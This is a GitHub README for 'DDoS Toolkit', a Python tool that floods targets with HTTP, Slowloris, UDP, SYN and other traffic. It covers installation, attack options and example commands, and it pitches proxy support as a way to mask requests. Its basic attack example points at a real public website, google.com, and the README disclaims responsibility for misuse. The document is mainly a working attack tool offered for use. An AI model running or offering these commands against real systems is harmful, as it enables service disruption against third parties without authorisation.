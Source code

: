 <p align="center">
<img src="/img/imgs.jpg">
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Platform-Linux-a80505?style=flat-square">
  <img src="https://img.shields.io/badge/License-MIT-a80505?style=flat-square">
  <img src="https://img.shields.io/github/v/release/Midohajhouj/DDoS-Toolkit?label=Version&color=a80505">
  <img src="https://img.shields.io/badge/Open%20Source-Yes-darkviolet?style=flat-square&color=a80505">
  <img src="https://img.shields.io/github/stars/Midohajhouj/DDoS-Toolkit?style=flat&label=Stars&color=a80505">  
  <img src="https://img.shields.io/github/repo-size/Midohajhouj/DDoS-Toolkit?label=Size&color=a80505">
  <img src="https://img.shields.io/github/languages/top/Midohajhouj/DDoS-Toolkit?color=a80505">
</p>

---

**DDoS Toolkit** is a powerful and customizable tool designed to simulate various types of Distributed Denial of Service (DDoS) attacks, including HTTP/HTTP2 Flood, Slowloris, UDP Flood, SYN Flood, SSH Flood, SSL Flood, and FTP Flood. It offers features like rate-limited attacks, proxy support, custom payload generation, and system resource monitoring, making it suitable for testing and research purposes in ethical cybersecurity simulations.

> 🚨 **Note:** The author is not responsible for any misuse of this tool. Use at your own risk. This tool's configuration includes file paths specifically set for /opt/DDoS-Toolkit/. Several key functionalities will not work properly unless the tool's directory is located in the /opt directory.

---

## Table of Contents

- [Features](##features)
- [Installation](##installation)
- [Usage](##usage)
- [Contact](##contact)

---

## 📋 Features
- **Multiple Attack Modes:** Supports HTTP Flood, Slowloris, UDP Flood, and SYN Flood.
- **Rate-Limited Attacks:** Customize the rate of requests sent to the target.
- **Proxy Support:** Use proxies to mask your requests and make attacks more efficient.
- **Custom Payloads:** Generate various types of payloads such as JSON, XML, and Form data.
- **Real-time Monitoring:** Track system resource usage and attack progress.

## Requirements

### Python Libraries
- aiohttp
- asyncio
- argparse
- threading
- scapy
- psutil
- colorama
- tqdm
- openai
- dns.resolver
- hashlib
- zlib

### System Requirements
- Python 3.x
- Internet access for proxy validation and AI suggestions

---

## 🛠️ Installation

### 1. Clone the repository:
```bash
sudo git clone https://github.com/Midohajhouj/DDoS-Toolkit.git /opt/DDoS-Toolkit
```
```bash
cd /opt/DDoS-Toolkit
```
```bash
sudo chmod +x *
```

### 2. Install dependencies:
```bash
sudo ./setup install
```

### 3. Build Debian PKG
If u have a Debian distro u can automase the below with this command:
```bash
cd build
```
```bash
chmod +x builder.sh
```
```bash
sudo ./builder.sh
```
```bash
dpkg -i ddos-toolkit.deb
```

If you encounter an error related to missing modules or dependencies, you can install each one individually. For example:

```bash
pip install <module_name>
```

For example, if the error is:

```
ModuleNotFoundError: No module named 'aiohttp'
```

You can resolve it by running:

```bash
pip install aiohttp --break-system-packages
```
---

## ⚙️ Usage (be root or use sudo)
Any result found in :
```bash
opt/DDoS-Toolkit/logs
```
### Basic Attack
To perform a basic attack with default settings:
```bash
sudo ddos -u https://google.com/
```

### Command-Line Arguments:
- `-u, --url`: Target URL or IP address (required)
- `-t, --threads`: Number of threads (default: 10)
- `-p, --pause`: Pause time between requests (default: 0.1 seconds)
- `-d, --duration`: Duration of the attack in seconds (default: 1500)
- `--proxies`: Proxy list file (optional)
- `--headers`: Custom headers as JSON string (optional)
- `--payload`: Payload type (`json`, `xml`, `form`), default is `json`
- `--rate-limit`: Rate limit for requests per second (default: 100)
- `--attack-mode`: Type of attack (`http-flood`, `slowloris`, `udp-flood`, `syn-flood`), default is `http-flood`
- `--proxy-auth`: Proxy authentication (username:password), optional
- `--retry`: Number of retries for failed requests (default: 3)
- `--user-agents`: Custom user-agent list file (optional)

### Example Usage:
1. Perform an HTTP flood attack with 20 threads, 0.1s pause time, and for 300 seconds:
```bash
ddos -u http://192.168.48.165/ -t 20 -p 0.1 -d 300
```

2. Perform a SYN flood attack on IP `192.168.48.165` for 60 seconds:
```bash
ddos -u 192.168.48.165 --attack-mode syn-flood -d 60
```

3. Use proxies for the attack:
```bash
ddos -u http://192.168.48.165 --proxies proxies.txt
```

4. Save attack results to a JSON file. 
```bash
ddos -u http://192.168.48.165 --results attack_results.json
```

## Example Output
```bash
Starting attack on http://192.168.48.165...
Requests Sent: 100 | Successful: 98 | Failed: 2 | RPS: 50.00 | CPU: 45% | Memory: 32%
```

## Contributing

Contributions are welcome! If you have suggestions or improvements, feel free to open an issue or submit a pull request.

**<p align="center"> Developed by <a href="https://github.com/Midohajhouj">MIDO</a> </p>**
